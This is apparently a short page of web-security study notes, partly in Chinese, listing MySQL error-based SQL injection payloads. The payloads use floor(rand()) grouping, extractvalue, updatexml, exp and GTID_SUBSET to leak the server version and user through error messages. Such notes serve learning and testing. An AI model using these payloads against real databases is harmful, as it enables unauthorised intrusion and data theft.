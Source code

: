 ![image-20210707140948949](websafe/image-20210707140948949.png)

![image-20210707141540378](websafe/image-20210707141540378.png)

![image-20210707141850178](websafe/image-20210707141850178.png)

count返回结果数量 length返回结果长度

```mysql
\\报错注入
select 1/0
select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a
extractvalue(1,concat(0x5e,(version())))
updatexml(0x5e,concat(0x5e,(select version())),1)
exp(~(select * from (select user())a))
GTID_SUBSET(version(),1)
```

